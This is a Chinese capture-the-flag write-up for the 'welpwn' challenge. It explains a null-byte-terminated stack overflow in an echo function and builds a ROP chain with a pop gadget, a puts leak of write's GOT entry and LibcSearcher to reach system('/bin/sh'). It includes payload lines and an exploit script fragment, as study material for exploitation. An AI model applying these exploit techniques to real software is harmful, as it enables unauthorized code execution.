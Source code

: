 0.Linux x64汇编函数的调用约定：函数调用时，前六个参数是从左至右依次存放于RDI、RSI、RDX、RCX、R8、R9寄存器里面，剩下的参数从左至右顺序入栈
  Windows x64会变函数的调用约定：函数调用时，前四个参数是从左至右依次存放于RCX、RDX、R8、R9寄存器里面，剩下的参数从左至右顺序入栈
1、打开IDA，发现main()函数没有问题，找到echo函数。
但发现echo(buf)函数，其中buf的大小为0x400，在该函数中存在赋值语句：
 for ( i = 0; *(_BYTE *)(i + a1); ++i )
    s2[i] = *(_BYTE *)(i + a1);
赋值的终止条件是当读取到a1中\x00的时候。其中s2的大小为0x10。
存在溢出。输入payload的时候，就会在覆盖eip地址后截断(地址一般都有\x00)。


如果本题目的判断条件不是 for ( i = 0; *(_BYTE *)(i + a1); ++i )，其中a1（buf）不能为00的地址，否则后面的就执行不了啦。
那么payload应该为 payload = 'a'*0x18 + p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)n

Welpwn题解(本题解根据writeup第二条分析而来)
首先用IDA查看发现主函数不能栈溢出，我们看看echo这个函数，echo会把主函数输入的字符串复制到局部的s2里，并且s2只有16字节，可以造成溢出。
Echo函数先循环复制字符到s2，如果遇到0，就结束复制，然后输出s2。
因此，我们如果想直接覆盖函数返回地址，那么我们的目标函数必须没有参数，否则，我们用p64(...)包装地址时，必然会出现0。
比如我们的payload为payload = 'a'*0x18+ p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)由于是64为包装，因此payload字符串为’a’*0x18 + ‘\xa3\x08\x40\x00\x00\x00\x00\x00’+ ‘......’
这意味着，payload后面的两个地址不会被复制到s2，因为前面遇到了0，那么这样我们就不能正确调用出system(“/bin/sh”)。

首先，进入echo函数后，栈中数据：


0000000000000000 
0000000000000000 0x10字节数据区
echo函数栈的ebp
echo函数返回地址
0000000000000000
0000000000000000
0000000000000000
0000000000000000
0000000000000000 0x400字节数据区
................
main函数栈的ebp


假如我们在buf中输入的0x400个a字符，那么栈变成这样了


aaaaaaaa
aaaaaaaa	0x10字节数据区
aaaaaaaa	echo函数栈的ebp
aaaaaaaa	echo函数返回地址
aaaaaaaa
aaaaaaaa
aaaaaaaa
aaaaaaaa
aaaaaaaa
........	0x400字节数据区
main函数栈的ebp

因为没有在中途遇到0，所以echo中的循环一直复制buf中的数据到s2中，造成溢出。现在，假如我们的payload = 'a'*0x18+ p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)
那么，栈中的数据变成这样
aaaaaaaa        
aaaaaaaa	0x10字节数据区
aaaaaaaa	echo函数栈的ebp
pop_rdi_addr	echo函数返回地址
aaaaaaaa
aaaaaaaa
aaaaaaaa	
pop_rdi_addr
Binsh_addr
system_addr	0x400字节数据区
main函数栈的ebp
这样的话，echo执行完后，跳到pop_rdi地址处执行，然而，pop_rdi执行完后，栈顶指针esp指向buf+0x8 ，即aaaaaaaa，这里不是地址，因此程序崩溃结束。
然而，如果，我们在buf+0x8处存储其他函数地址，也是不可行的，因为该地址是64位，末尾几位有0，这会导致我们还没溢出s2就已停止数据复制


因此，我们有以下总结
buf的前24字节不能存地址数据，只存普通数据。
buf+24处应该存某一地址，且该地址处有四个pop指令，和一个retn指令。这样，
四次pop后，就相当于跳过了24字节数据和自己本身8字节地址数据。
在接下来的地址处，我们就可以写其他函数。

在0x40089C处正好有四个pop和一个retn
0x000000000040089b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret

假如我们的payload = 'a'*0x18 + p64(pop_32) + p64(pop_rdi) + p64(write_got) + p64(puts_plt) + p64(main_addr)
那么栈布局如下

那么栈布局如下
aaaaaaaa
aaaaaaaa	0x10字节数据区
aaaaaaaa	echo函数栈的ebp
pop_32_addr(rop)echo函数返回地址		-----------------
aaaaaaaa	pop r12					| 等
aaaaaaaa	pop r13	   				| 价
aaaaaaaa	pop r14					| 于
pop_32_addr	pop r15 ; ret				|<==>
pop_rdi	   《----------------------------------------------
write_got	//rdi=write_got
puts_plt	//put(write_got)
main_addr	0x400字节数据区
main函数栈的ebp

那么，echo函数执行完以后，跳到pop_24地址处，由于跳转后，栈顶指针指向buf，出栈4个后，指针指向buf+32 ，
接下来遇到retn，出栈一个元素为(pop_rdi)作为pop_24的返回地址，这样跳转到了pop_rdi，后面类似。
我们调用system 获取到shell


使用libcSearcher：
24.sh.recvuntil('\x40')
25.#泄露write地址
26.write_addr=u64(sh.recv(6).ljust(8,'\x00'))
27.
28.libc=LibcSearcher('write',write_addr)
29.#获取libc加载地址
30.libc_base=write_addr-libc.dump('write')
31.#获取system地址
32.system_addr=libc_base+libc.dump('system')
33.#获取/bin/sh地址
34.binsh_addr=libc_base+libc.dump('str_bin_sh')





